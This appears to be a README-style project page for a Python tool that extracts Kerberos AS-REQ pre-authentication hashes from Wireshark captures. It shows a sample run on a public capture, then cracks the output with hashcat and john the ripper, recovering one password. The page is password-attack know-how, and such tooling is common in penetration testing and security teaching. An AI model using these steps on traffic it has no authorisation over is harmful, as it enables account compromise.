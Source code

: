 ```yaml
---
id: "kerberos-hash-parser"
name: "Kerberos hash parser"
description: "A python script to parse Kerberos hashes, from Wireshark capture files containing KRB5 AS-REQ packets, that can be cracked into the user's password using hashcat and john the ripper."
priority: 10
---
```

# Kerberos Hash Parser

[Github repository](https://github.com/ariannelafraise/kerberos-hash-parser)↗

A python script to parse Kerberos hashes, from Wireshark capture files containing KRB5 AS-REQ packets, that can be cracked into the user's password using hashcat and john the ripper.

Supports etype 18 (aes256-cts-hmac-sha1-96) & 23 (rc4-hmac), with *default salt strings*.

>The default salt string, if none is provided via pre-authentication data, is the concatenation of the principal's realm and name components, in order, with no separators.
https://datatracker.ietf.org/doc/html/rfc4120#section-43
## In action:

Using a sample capture file from:

https://wiki.wireshark.org/SampleCaptures#kerberos-and-keytab-file-for-decryption
```bash
[arianne@kitaria kerberos-hash-parser]$ python khp.py krb-816.cap hashcat
$krb5pa$23$des$DENYDC$DENYDCdes$32d396a914a4d0a78e979ba75d4ff53c1db7294141760fee05e434c12ecf8d5b9aa5839e09a2244893aff5f384f79c37883f154a
$krb5pa$23$u5$DENYDC$DENYDCu5$daf324dccec73739f6e49ef8fde60a9f9dfff50551ff5a7e969c6e395f18b842fb17c3b503df3025ab5a9dfc3031e893c4002008
$krb5pa$23$u5$DENYDC$DENYDCu5$addbe67ccf9dd3c3da9e233612816c5720447ae202cfe7a84a719e1ef70b93bcef49786f71319a93d60531fcb443f7e96039f540

[arianne@kitaria kerberos-hash-parser]$ hashcat -m 7500 hash.hash ~/wordlists/passwords/rockyou.txt
[...]
$krb5pa$23$des$DENYDC$DENYDCdes$32d396a914a4d0a78e979ba75d4ff53c1db7294141760fee05e434c12ecf8d5b9aa5839e09a2244893aff5f384f79c37883f154a:123
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 7500 (Kerberos 5, etype 23, AS-REQ Pre-Auth)
Hash.Target......: $krb5pa$23$des$DENYDC$DENYDCdes$32d396a914a4d0a78e9...3f154a
Time.Started.....: Sun Mar  9 23:07:02 2025 (0 secs)
Time.Estimated...: Sun Mar  9 23:07:02 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/home/arianne/wordlists/passwords/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.1.........:  1344.6 kH/s (7.78ms) @ Accel:16 Loops:1 Thr:8 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 12288/14344384 (0.09%)
Rejected.........: 0/12288 (0.00%)
Restore.Point....: 0/14344384 (0.00%)
Restore.Sub.1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.1....: 123456 -> havana

[arianne@kitaria kerberos-hash-parser]$
```
## Usage

1. Install dependencies:
```bash
pip install pyshark
```
2. Launch:
```bash
python khp.py <file> <output_format: 'hashcat' or 'john'>
```
3. Crack the found hash(es) with hashcat or john:

### hashcat
#### etype 18
```bash
hashcat -m 19900 hash.txt wordlist.txt
```

```bash
hashcat --show -m 19900 hash.txt
```
#### etype 23
```bash
hashcat -m 7500 hash.txt wordlist.txt
```

```bash
hashcat --show -m 7500 hash.txt
```

### john the ripper
```bash
john --wordlist=wordlist.txt hash.txt
```
```bash
john --show hash.txt
```